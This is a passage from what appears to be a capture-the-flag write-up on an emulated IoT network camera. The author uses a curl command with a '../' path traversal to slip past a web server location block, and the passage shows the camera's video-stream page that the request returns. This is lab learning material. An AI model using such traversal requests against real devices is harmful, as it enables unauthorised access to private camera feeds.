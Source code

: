 And a path that should be blocked by the /??/player/ location block.

So what happens if we try to navigate to a page in player, but try to get the images location block to trigger?

Oh a redirect will happen. Good on you super secure IOT device! Wait... a redirect means we hit a page... let's throw this in curl and see what happens...

```bash
┌──(tokugero㉿kali)-[~/…/rooms/aoc2023/task2/emux-master]
└─$ curl  -v --path-as-is 'http://10.10.232.34:50628/en/images/../player/flash_vga.asp'
*   Trying 10.10.232.34:50628...
* Connected to 10.10.232.34 (10.10.232.34) port 50628
> GET /en/images/../player/flash_vga.asp HTTP/1.1
> Host: 10.10.232.34:50628
> User-Agent: curl/8.4.0
> Accept: */*
> 
* HTTP 1.0, assume close after body
< HTTP/1.0 200 OK
< Date: Wed Dec 31 21:55:54 1969
< Server: Webs
< Pragma: no-cache
< Cache-Control: no-cache
< Content-type: text/html
< 
<html>
<head>
<title>Network Camera Home Page</title>
<snip>
        <td width=416 height=42 background="../../images/flash_vga_right_top.png">
                <table width=100% border=0 cellspacing=0 cellpadding=0>
                <tr>
                        <td align=right>
                                <font color=#000000>
                                <a href="../login.asp" target="_top"><font color=#000000>Home</font></a>
                                <b>|</b>
                                <a href="../main.asp" target="_top"><font color=#000000>Setting</font></a>
                                <b>|</b>
                                <a href="flash_vga.asp?stream=0">Primary Stream</a>
                                <b>|</b>
                                <a href="flash_vga.asp?stream=1">Secondary Stream</a>
                                </font>
                        </td>
                        <td width="2%">&nbsp;</td>
                </tr>
                </table>
    </td>
</tr>
<snip>
<embed src="rtmp://10.10.232.34:50628/live/0/h264_flv" quality="high" b
<snip>
    jwplayer("myPlayer").setup({
        file: "rtmp://10.10.232.34:50628/live/0/h264_flv",
        width: "640",
        height: "480",
        autostart: true,
    });
<snip>
</body>
</html>
* Closing connection
```

